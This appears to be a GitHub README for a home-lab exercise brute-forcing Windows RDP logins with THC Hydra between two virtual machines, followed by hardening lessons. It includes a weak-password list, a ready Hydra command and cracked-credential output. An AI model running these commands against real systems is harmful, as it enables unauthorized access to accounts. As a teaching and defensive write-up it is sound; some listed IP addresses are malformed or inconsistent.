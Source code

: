 # RDP-Brute-Force-Attack-Lab-with-Hydra

![Lab Status](https://img.shields.io/badge/Status-Completed-brightgreen?style=for-the-badge)
![Platform](https://img.shields.io/badge/Platform-UTM%20on%20macOS-lightgrey?style=for-the-badge&logo=apple)
![Tool](https://img.shields.io/badge/Tool-THC%20Hydra-red?style=for-the-badge&logo=kali-linux)

## Overview

This lab demonstrates a brute-force attack against Remote Desktop Protocol (RDP) using **Hydra** within an isolated and controlled test environment built on **UTM** running on a **MacBook Air M1**. The goal is to test password strength and understand the importance of hardening RDP access.

>  **Legal Disclaimer**: This lab was performed in a **private test environment**. Never conduct unauthorized testing on live or production systems.

---

## Lab Configuration

| Component        | Details                               |
|------------------|----------------------------------------|
| **Host System**  | MacBook Air M1                         |
| **Hypervisor**   | UTM                                    |
| **Attacker VM**  | Kali Linux (Hydra pre-installed)       |
| **Target VM**    | Windows 10 Pro                         |
| **Network Mode** | Emulated VLAN (Host-Only)              |
| **Tool Used**    | THC Hydra                              |

---

## Network Setup

- **Emulated VLAN** used for host-only communication
- Both VMs configured on the same VLAN: `cyberlab`
- IP addresses assigned:
  - Kali Linux: `192.168.128....`
  - Windows 10: `192.168.1128...`

---

## Windows Target Setup

1. Enabled Remote Desktop via `sysdm.cpl`.
2. Disabled Network Level Authentication (for Hydra compatibility).
3. Created a user:
   ```cmd
   net user testuser P@ssw0rd123 /add
   net localgroup "Remote Desktop Users" testuser /add
   ```
4. Allowed RDP through Windows Firewall.

---

## Attack Execution (Hydra)

**Password List** (`rdp-pass.txt`)
```text
123456
password
P@ssw0rd123
letmein
welcome1
```

**Hydra Command**
```bash
hydra -V -f -l testuser -P rdp-pass.txt rdp://192.168.128...
```

**Options Explained**
- `-V`: Verbose mode
- `-f`: Exit after first valid login
- `-l`: Username
- `-P`: Password list
- `rdp://`: RDP protocol and target IP

**Sample Output**
```
[3386][rdp] host: 192.168.100.20   login: testuser   password: P@ssw0rd123
```

---

## Result

- **Success**: Hydra successfully identified valid RDP credentials.
- **Credentials**:
  - Username: `testuser`
  - Password: `P@ssw0rd123`

---

## Lessons Learned

- RDP is vulnerable to brute-force without additional protections.
- Weak/default passwords are easily exploitable.
- Always implement:
  - Account lockout policies
  - Network Level Authentication (NLA)
  - Strong password requirements
  - VPN or firewall restrictions

---

## Skills Demonstrated

-  Virtual network setup using UTM and Emulated VLAN
-  Offensive tooling: THC Hydra
-  Service enumeration and protocol targeting (RDP/3389)
-  Documentation and ethical hacking methodology
-  Windows privilege management and configuration

---

##  Repository Structure

```text
/
├── rdp-pass.txt              # Custom password list
├── README.md                 # Lab documentation
├── screenshots/              # (Optional) Screenshots of attack steps
└── notes.md                  # Personal notes or reflections
```

---

## License

This project is for **educational and ethical use only**. Do not use these techniques on systems you do not own or have permission to test.
